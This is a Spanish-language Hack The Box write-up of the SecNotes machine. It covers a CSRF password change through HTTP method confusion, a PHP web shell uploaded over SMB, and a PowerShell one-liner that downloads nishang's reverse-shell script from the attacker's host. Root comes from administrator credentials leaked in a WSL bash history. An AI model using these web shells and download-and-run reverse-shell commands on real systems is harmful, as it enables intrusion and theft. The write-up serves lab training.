

Hack The Box: SecNotes Writeup
Welcome to my detailed writeup of the medium difficulty machine “SecNotes” on Hack The Box. This writeup will cover the steps taken to achieve initial foothold and escalation to root.
TCP Enumeration
1$ rustscan -a 10.129.18.0 --ulimit 5000 -g
210.129.18.0 -> [80,445,8808] 1$ nmap -p80,445,8808 -sCV 10.129.18.0 -oN allPorts
2Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-14 15:10 CEST
3Nmap scan report for 10.129.18.0
4Host is up (0.037s latency).
5
6PORT STATE SERVICE VERSION
780/tcp open http Microsoft IIS httpd 10.0
8| http-methods:
9|_ Potentially risky methods: TRACE
10|_http-server-header: Microsoft-IIS/10.0
11| http-title: Secure Notes - Login
12|_Requested resource was login.php
13445/tcp open microsoft-ds Windows 10 Enterprise 17134 microsoft-ds (workgroup: HTB)
148808/tcp open http Microsoft IIS httpd 10.0
15|_http-server-header: Microsoft-IIS/10.0
16|_http-title: IIS Windows
17| http-methods:
18|_ Potentially risky methods: TRACE
19Service Info: Host: SECNOTES; OS: Windows; CPE: cpe:/o:microsoft:windows
20
21Host script results:
22| smb-security-mode:
23| account_used: <blank>
24| authentication_level: user
25| challenge_response: supported
26|_ message_signing: disabled (dangerous, but default)
27| smb-os-discovery:
28| OS: Windows 10 Enterprise 17134 (Windows 10 Enterprise 6.3)
29| OS CPE: cpe:/o:microsoft:windows_10::-
30| Computer name: SECNOTES
31| NetBIOS computer name: SECNOTES\x00
32| Workgroup: HTB\x00
33|_ System time: 2024-08-14T04:11:27-07:00
34|_clock-skew: mean: 20m32s, deviation: 4h02m31s, median: -1h59m29s
35| smb2-time:
36| date: 2024-08-14T11:11:25
37|_ start_date: N/A
38| smb2-security-mode:
39| 3:1:1:
40|_ Message signing enabled but not required
41
42Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
43Nmap done: 1 IP address (1 host up) scanned in 52.61 secondsUDP Enumeration
1$ sudo nmap --top-ports 1500 10.129.18.0 -sU --min-rate 5000 -n -Pn -oN allPorts.UDP
2Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-14 15:13 CEST
3Nmap scan report for 10.129.18.0
4Host is up.
5All 1500 scanned ports on 10.129.18.0 are in ignored states.
6Not shown: 1500 open|filtered udp ports (no-response)
7
8Nmap done: 1 IP address (1 host up) scanned in 2.39 secondsHTTP Enumeration
Hay pocos vectores de ataque y como por SMB no consigo nada..
1$ smbclient -L \\10.129.18.0 -U '' -N
2session setup failed: NT_STATUS_ACCESS_DENIED1$ smbmap -H 10.129.18.0 -u 'null' -p 'null'
2[!] Authentication error on 10.129.18.0Vamos a empezar con el puerto 80/TCP
Vemos un recurso login.php
1$ whatweb http://10.129.18.0
2http://10.129.18.0 [302 Found] Cookies[PHPSESSID], Country[RESERVED][ZZ], HTTPServer[Microsoft-IIS/10.0], IP[10.129.18.0], Microsoft-IIS[10.0], PHP[7.2.7], RedirectLocation[login.php], X-Powered-By[PHP/7.2.7]
3http://10.129.18.0/login.php [200 OK] Bootstrap[3.3.7], Country[RESERVED][ZZ], HTML5, HTTPServer[Microsoft-IIS/10.0], IP[10.129.18.0], Microsoft-IIS[10.0], PHP[7.2.7], PasswordField[password], Title[Secure Notes - Login], X-Powered-By[PHP/7.2.7]Con la siguiente pinta. 
Si nos creamos una cuenta, podemos ver lo siguiente.

Encontramos un Reflected XSS en las notas ya que este se guarda en las notas del usuario.

En el campo de contacto podemos enviar un mensaje a tyler.
Si le mandamos una dirección URL, parece que tyler la abre..

Updating Tyler password | CSRF
Comprobando la funcionalidad para cambiar la contraseña, vemos que se envía una solicitud POST a change_pass.php

Pero si intentamos cambiar la solicitud a GET..

¡La credencial también se cambia!
A esto se le conoce como HTTP Method Confusion, y esto puede llevar a un CSRF.
Podemos ver que para cambiar la contraseña no hay ningún token CSRF y además si recordamos, tyler abría los links que le adjuntamos en el formulario de contacto…
Le pasamos esta URL formulada para cambiar la contraseña de tyler a pointedsec…

Y podemos iniciar sesión como tyler

Encontramos lo que parece credenciales para acceder a un recurso compartido a nivel de red.

Con netexec podemos comprobar si son válidas…
1$ nxc smb 10.129.18.0 -u 'tyler' -p '92g!mA8BGjOirkL%OG*&'
2SMB 10.129.18.0 445 SECNOTES [*] Windows 10 Enterprise 17134 (name:SECNOTES) (domain:SECNOTES) (signing:False) (SMBv1:True)
3SMB 10.129.18.0 445 SECNOTES [+] SECNOTES\tyler:92g!mA8BGjOirkL%OG*&Foothold
Podemos ver los recursos compartidos a nivel de red a los que puede acceder este usuario y vemos que tiene permisos de lectura y escritura para new-site
Vemos algunos recursos típicos de un IIS.

Por el puerto 8808/TCP encontramos lo siguiente..
Vamos a probar a subir un archivo y ver si se ve reflejado en este servicio web.
1$ echo "test" > test.txtY ahora con smbclient
1smb: \> put test.txt
2putting file test.txt as \test.txt (0,0 kb/s) (average 0,0 kb/s)Y efectivamente, se ve reflejado.

Vamos a ver si se interpreta código PHP en este sitio web..
1$ echo "<?php phpinfo(); ?>" > info.php
2┌─[192.168.1.52]─[pointedsec@parrot]─[~/Desktop/secnotes/content]
3└──╼ [★]$ smbclient \\\\10.129.18.0\\new-site -U 'tyler%92g!mA8BGjOirkL%OG*&'
4Try "help" to get a list of possible commands.
5smb: \> put info.php
6putting file info.php as \info.php (0,2 kb/s) (average 0,2 kb/s)Y vemos que si, ahora solo quedaría subirnos una web shell.
Podemos comprobar que no hay ninguna disable_functions

Creamos una web shell sencilla…
1<?php
2 echo "<pre>" . shell_exec($_GET["cmd"]) . "</pre>";
3?La subimos…
1smb: \> put shell.php
2putting file shell.php as \shell.php (0,6 kb/s) (average 0,6 kb/s)¡Y tenemos ejecución remota de comandos!

Ahora con el script Invoke-PowerShellTcp.ps1 de nishang vamos a ganar acceso a la máquina.
Nos copiamos el script y le añadimos esta línea a lo último.

Ahora servimos el script por el puerto 8081.
1$ python3 -m http.server 8081
2Serving HTTP on 0.0.0.0 port 8081 (http://0.0.0.0:8081/) ...Nos ponemos en escucha con netcat por el puerto 443.
1$ sudo rlwrap -cEr nc -lvnp 443
2listening on [any] 443 ...Y ejecutamos este one-liner a través de la web shell.
1echo IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.85:8081/Invoke-PowerShellTcp.ps1') | powershell -noprofile -
Y ganamos acceso a la máquina víctima
1$ sudo rlwrap -cEr nc -lvnp 443
2listening on [any] 443 ...
3connect to [10.10.14.85] from (UNKNOWN) [10.129.18.0] 59765
4Windows PowerShell running as user SECNOTES$ on SECNOTES
5Copyright (C) 2015 Microsoft Corporation. All rights reserved.
6
7PS C:\inetpub\new-site>whoami
8secnotes\tylerY podemos leer la flag de usuario.
1PS C:\Users\tyler\Desktop> type user.txt
2e175f96d71f268b1...Privilege Escalation
Según vemos la flag, nos llama la atención un acceso directo.

¿bash? Pero si estamos en Windows.
También podemos detectar un directorio Distros en la raíz del sistema.
1PS C:\Distros> dir
2
3
4 Directory: C:\Distros
5
6
7Mode LastWriteTime Length Name
8---- ------------- ------ ----
9d----- 6/21/2018 5:59 PM UbuntuPodemos deducir que va a entrar en juego WSL (Windows Subsystem for Linux), una manera de poder tener tu sistema operativo Linux dentro de tu máquina Windows.
Entonces vamos a explorar los archivos de este subsistema ya que se tienen que guardar en alguna parte del disco duro, ¿no?
Buscando un poco en Google nos encontramos con alguien que se preguntó lo mismo hace muchos años. https://superuser.com/questions/1185033/what-is-the-home-directory-on-windows-subsystem-for-linux
Y con esta respuesta.
Y efectivamente, aquí se encuentra el subsistema linux.
1PS C:\Users\tyler\AppData\Local\Packages\CanonicalGroupLimited.Ubuntu18.04onWindows_79rhkp1fndgsc\LocalState\rootfs> dir
2
3
4 Directory:
5 C:\Users\tyler\AppData\Local\Packages\CanonicalGroupLimited.Ubuntu18.04onWindows_79rhkp1fndgsc\LocalState\rootfs
6
7
8Mode LastWriteTime Length Name
9---- ------------- ------ ----
10da---- 6/21/2018 6:03 PM bin
11da---- 6/21/2018 6:00 PM boot
12da---- 6/21/2018 6:00 PM dev
13da---- 6/22/2018 3:00 AM etc
14da---- 6/21/2018 6:00 PM home
15da---- 6/21/2018 6:00 PM lib
16da---- 6/21/2018 6:00 PM lib64
17da---- 6/21/2018 6:00 PM media
18da---- 6/21/2018 6:03 PM mnt
19da---- 6/21/2018 6:00 PM opt
20da---- 6/21/2018 6:00 PM proc
21da---- 6/22/2018 2:44 PM root
22da---- 6/21/2018 6:00 PM run
23da---- 6/22/2018 2:57 AM sbin
24da---- 6/21/2018 6:00 PM snap
25da---- 6/21/2018 6:00 PM srv
26da---- 6/21/2018 6:00 PM sys
27da---- 6/22/2018 2:25 PM tmp
28da---- 6/21/2018 6:02 PM usr
29da---- 6/21/2018 6:03 PM var
30-a---- 6/22/2018 2:25 PM 87944 init Viendo el archivo /root/.bash_history encontramos una línea interesante.
1PS C:\Users\tyler\AppData\Local\Packages\CanonicalGroupLimited.Ubuntu18.04onWindows_79rhkp1fndgsc\LocalState\rootfs\root> type .bash_history
2cd /mnt/c/
3ls
4cd Users/
5cd /
6cd ~
7ls
8pwd
9mkdir filesystem
10mount //127.0.0.1/c$ filesystem/
11sudo apt install cifs-utils
12mount //127.0.0.1/c$ filesystem/
13mount //127.0.0.1/c$ filesystem/ -o user=administrator
14cat /proc/filesystems
15sudo modprobe cifs
16smbclient
17apt install smbclient
18smbclient
19smbclient -U 'administrator%u6!4ZwgwOM#^OBf#Nwnh' \\\\127.0.0.1\\c$
20> .bash_history
21less .bash_history
22exit1smbclient -U 'administrator%u6!4ZwgwOM#^OBf#Nwnh' \\\\127.0.0.1\\c$Parecen credenciales del administrador del sistema.
Las podemos comprobar con netexec y son válidas.
1$ nxc smb 10.129.18.0 -u Administrator -p 'u6!4ZwgwOM#^OBf#Nwnh'
2SMB 10.129.18.0 445 SECNOTES [*] Windows 10 Enterprise 17134 (name:SECNOTES) (domain:SECNOTES) (signing:False) (SMBv1:True)
3SMB 10.129.18.0 445 SECNOTES [+] SECNOTES\Administrator:u6!4ZwgwOM#^OBf#Nwnh (Pwn3d!)Para terminar, teniendo estas credenciales y con psexec podemos ganar una consola como nt authority\system.
1$ impacket-psexec -target-ip 10.129.18.0 Administrator:'u6!4ZwgwOM#^OBf#Nwnh'@10.129.18.0
2Impacket v0.11.0 - Copyright 2023 Fortra
3
4[*] Requesting shares on 10.129.18.0.....
5[*] Found writable share ADMIN$
6[*] Uploading file pNVSROjb.exe
7[*] Opening SVCManager on 10.129.18.0.....
8[*] Creating service vyBL on 10.129.18.0.....
9[*] Starting service vyBL.....
10[!] Press help for extra shell commands
11Microsoft Windows [Version 10.0.17134.228]
12(c) 2018 Microsoft Corporation. All rights reserved.
13
14C:\WINDOWS\system32> whoami
15nt authority\systemPodríamos leer la flag de root
1C:\Users\Administrator\Desktop> type root.txt
279da3473ede54ef8...¡Y ya estaría!
Happy Hacking! 🚀
#HackTheBox #SecNotes #Writeup #Cybersecurity #Penetration Testing #CTF #Reverse Shell #Privilege Escalation #RCE #Exploit #Linux #XSS #Reflected XSS #Stored XSS #HTTP Method Confusion #CSRF #Abusing WSL #Information Leakage